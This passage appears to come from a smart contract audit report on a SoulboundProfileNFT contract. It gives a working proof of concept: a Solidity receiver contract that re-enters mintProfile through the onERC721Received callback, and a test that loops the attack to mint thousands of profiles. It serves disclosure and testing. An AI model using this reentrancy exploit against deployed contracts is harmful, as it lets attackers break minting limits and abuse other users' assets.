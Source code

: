 ## Tools Used

* Manual code review

## POC

1 - First create the contract that will receive the NFT's.

```Solidity
contract Receiver {
    address victim;

    constructor(address _victim) {
        victim = _victim;
    }

    function onERC721Received(address, address, uint256, bytes memory) public returns (bytes4) {
        if (SoulboundProfileNFT(victim).balanceOf(address(this)) < type(uint256).max) {
            try SoulboundProfileNFT(victim).mintProfile("Alice", 25, "ipfs://profileImage") {
                return this.onERC721Received.selector;
            } catch {
                return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
            }
        }
        return this.onERC721Received.selector;
    }

    function attack() external {
        try SoulboundProfileNFT(victim).burnProfile() {} catch {}
        SoulboundProfileNFT(victim).mintProfile("Alice", 25, "ipfs://profileImage");
    }
}

```

2 - Implement the following test function.

```Solidity
function testMintingMultipleTimes() external {
        Receiver receiver = new Receiver(address(soulboundNFT));

        uint256 amount = soulboundNFT.balanceOf(address(receiver));
        while (amount < type(uint256).max && gasleft() > 10000) {
            try receiver.attack() {} catch {}
            amount = soulboundNFT.balanceOf(address(receiver));
        }
        assertEq(amount, 1, "Should mint only once");
    }
```

3 - This test will fail because the assertion is not met. During testing, i successfully minted 8,691 NFTs, but this process can be repeated until all possible NFTs are minted.
